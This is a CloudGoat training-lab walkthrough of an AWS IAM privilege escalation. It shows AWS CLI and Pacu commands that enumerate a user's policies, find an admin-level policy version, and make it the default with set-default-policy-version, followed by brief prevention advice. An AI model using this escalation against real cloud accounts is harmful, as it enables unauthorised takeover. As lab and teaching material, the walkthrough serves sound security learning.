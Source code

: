 ```yaml
---
title: 'iam_privesc_by_rollback'
date: 2018-11-28T15:14:39+10:00
---
```


---

According to the official documentation for this scenario ([here](https://github.com/RhinoSecurityLabs/cloudgoat/tree/master/scenarios/iam_privesc_by_rollback)) the overall goal is to "Acquire full admin privileges."

We can create the challenge by running

```bash
python3 cloudgoat.py create iam_privesc_by_rollback
```

The build process will begin and when it finishes we will be provided with a set of credentials for the Raynor user account.

---

### Raynor
In the real world, we probably wouldn't just be handed these credentials. However, people make mistakes and credentials are often accidentally exposed. Let's start doing basic enumeration and see if we can determine what things we have access to. To do this we'll run the following set of commands just to poke at a few of the more common services:

```bash
aws --profile solus s3 ls
aws --profile solus ec2 describe-instances
aws --profile solus iam list-roles
aws --profile solus lambda list-functions
```


All of the api calls fail with the exeption being iam list-roles. We can clean the output up by using jq:

```bash
aws --profile raynor iam list-roles | jq '.Roles[].RoleName'
```

This command will produce an output similar to the one below.

![jq-list-roles.png](images/jq-list-roles.png)

The key takeaway here is that we have access to a user account with some level of IAM permissions. How much access do we have? One way to find out is by leveraging Pacu to bruteforce those permissions for us. The other option is to make iam calls one at a time to determine where our limits may exist. For this example we'll leverage Pacu and run the iam__enum_users_roles_policies_groups module.

```python
run iam__enum_users_roles_policies_groups
```

Once the module finishes its execution we see that it successfully enumeated various aspects of the account.

![iam-enum-results.png](images/iam-enum-results.png)

We can run the data `IAM command` to see information associated with the enumeration. At first glance of the policies it appears there is a specific policy listed for our user account: `cg-raynor-policy`

```json
"Policies": [
 {
  "PolicyName": "cg-raynor-policy",
  "PolicyId": "ANPA5X73I5MBNC3PRT6CO",
  "Arn": "arn:aws:iam::121212121212:policy/cg-raynor-policy",
  "Path": "/",
  "DefaultVersionId": "v1",
  "AttachmentCount": 1,
  "IsAttachable": true,
  "CreateDate": "Mon, 25 May 2020 14:24:46",
  "UpdateDate": "Mon, 25 May 2020 14:24:48"
 }
],
```

Looking at the details above we can also tell that the policy is curently attached `AttachmentCount: 1` and the version being used is v1 `DefaultVersionId: v1`. If we wanted to leverage the aws cli in place of Pacu we could run the command below. The command is filtering to show only those policies which are currently attached to a resource.

```bash
aws --profile raynor iam list-policies --only-attached --scope Local

{
 "Policies": [
  {
   "PolicyName": "cg-raynor-policy",
   "PolicyId": "ANPA5X73I5MBNC3PRT6CO",
   "Arn": "arn:aws:iam::121212121212:policy/cg-raynor-policy",
   "Path": "/",
   "DefaultVersionId": "v1",
   "AttachmentCount": 1,
   "PermissionsBoundaryUsageCount": 0,
   "IsAttachable": true,
   "CreateDate": "2020-05-25T14:24:46Z",
   "UpdateDate": "2020-05-25T14:24:48Z"
  }
 ]
}
```

The next question we have to answer is the policy attached to our user account? We can do that by quering the list-attached-user-policies endpoint and our user name raynor. An example command and output is below.

```bash
aws --profile raynor iam list-attached-user-policies --user-name raynor

{
 "AttachedPolicies": [
  {
   "PolicyName": "cg-raynor-policy",
   "PolicyArn": "arn:aws:iam::121212121212:policy/cg-raynor-policy"
  }
 ]
}
```

---

### Versions

Good news, it appears the raynor policy is currently associated with the raynor user account. Lets see if we can learn more about what we are allowed to do and what we are not allowed to do. We can accomplish this by making a call to the `get-policy-version` endpoint as seen below.

```bash
aws --profile raynor iam get-policy-version --policy-arn arn:aws:iam::121212121212:policy/cg-raynor-policy --version-id v1
{
 "PolicyVersion": {
  "Document": {
   "Version": "2012-10-17",
   "Statement": [
    {
     "Sid": "IAMPrivilegeEscalationByRollback",
     "Action": [
      "iam:Get*",
      "iam:List*",
      "iam:SetDefaultPolicyVersion"
     ],
     "Effect": "Allow",
     "Resource": "*"
    }
   ]
  },
  "VersionId": "v1",
  "IsDefaultVersion": true,
  "CreateDate": "2020-05-25T14:24:46Z"
 }
}
```


For the call to work we specified the policy arn as well as the version currently applied. From the output it looks like we can make calls to iam resources if they are a Get, List, or SetDefaultPolicyVersion. That last one is interesting. Perhaps our currently policy has more than one version? Let's check to see if version 2 of our policy exists. The results are below:

```bash
aws --profile raynor iam get-policy-version --policy-arn arn:aws:iam::121212121212:policy/cg-raynor-policy --version-id v2

{
 "PolicyVersion": {
  "Document": {
   "Version": "2012-10-17",
   "Statement": [
    {
     "Action": "*",
     "Effect": "Allow",
     "Resource": "*"
    }
   ]
  },
  "VersionId": "v2",
  "IsDefaultVersion": false,
  "CreateDate": "2020-05-25T14:24:48Z"
 }
}
```

Interesting, a version 2 of the policy does exist, and it gives full admin access to the entire account. Our current policy provides us with the ability to set the default version of a policy. If we were to change the default version of the policy currently applied to our user account from 1 to 2 we could escalate our privledges to full admin.

The command below will accomplish this.

```bash
aws --profile raynor iam set-default-policy-version --policy arn:aws:iam::121212121212:policy/cg-raynor-policy --version-id v2
```

If successful there will be no response. We can validate the command was successful by re-running the `list-policies` command:

```bash
aws --profile raynor iam list-policies --only-attached --scope Local

{
 "Policies": [
  {
   "PolicyName": "cg-raynor-policy",
   "PolicyId": "ANPA5X73I5MBNC3PRT6CO",
   "Arn": "arn:aws:iam::121212121212:policy/cg-raynor-policy",
   "Path": "/",
   "DefaultVersionId": "v2",
   "AttachmentCount": 1,
   "PermissionsBoundaryUsageCount": 0,
   "IsAttachable": true,
   "CreateDate": "2020-05-25T14:24:46Z",
   "UpdateDate": "2020-05-25T18:28:50Z"
  }
 ]
}
```

Notice the default version has changed from `v1` to `v2`. At this point we have full administrative rights to this aws account.

---

### Prevention
So, how do we prevent this. Where did the owner of this account go wrong? There are a few places where this could have be stopped. Lets dive into them.

1. The most important is to not expose credentials. If we were not able to leverage raynors credentials we would not have been able to authenticate and further escalate privileges.
2. Limit what users can do. The policy associated with raynor allowed for too much access. I imagine in the real world a user with this set of actions at there disposal would likely have much more persmissions within the account.